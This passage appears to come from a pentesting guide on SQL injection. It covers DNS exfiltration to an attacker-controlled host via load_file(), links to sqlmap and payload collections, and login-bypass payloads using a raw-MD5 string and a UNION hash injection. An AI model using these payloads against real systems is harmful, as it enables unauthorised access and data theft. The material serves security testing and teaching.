 If **no-other** exploitation method **worked**, you may try to make the **database ex-filtrate** the info to an **external host** controlled by you. For example, via DNS queries:

```text
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```

## Automated Exploitation

Check the [SQLMap Cheetsheat](sqlmap/) to exploit a SQLi vulnerability with [**sqlmap**](https://github.com/sqlmapproject/sqlmap).

## Tech specific info

We have already discussed all the ways to exploit a SQLinjection vulnerability. Find some more tricks database technology dependant in this book:

* [MySQL](mysql-injection/)
* [PostgreSQL](postgresql-injection/)

Or you will find **a lot of tricks regarding: MySQL, PostgreSQL, Oracle, MSSQL, SQLite and HQL in** [**https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## Authentication bypass

List to try to bypass the login functionality:

{% page-ref page="../login-bypass/sql-login-bypass.md" %}

### Authentication Bypass \(Raw MD5\)

When a raw md5 is used, the pass will be queried as a simple string, not a hexstring.

```text
"SELECT * FROM admin WHERE pass = '".md5($password,true)."'"
```

Allowing an attacker to craft a string with a `true` statement such as `' or 'SOMETHING`

```text
md5("ffifdyop", true) = 'or'6�]��!r,��b�
```

Challenge demo available at [http://web.jarvisoj.com:32772](http://web.jarvisoj.com:32772/)

### Hash Authentication Bypass

```text
admin' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

**Recommended  list**:

You should use as username each line of the list and as password always: _**Pass1234.**  
\(This payloads  are also included in the big list mentioned at the beginning of this section\)_
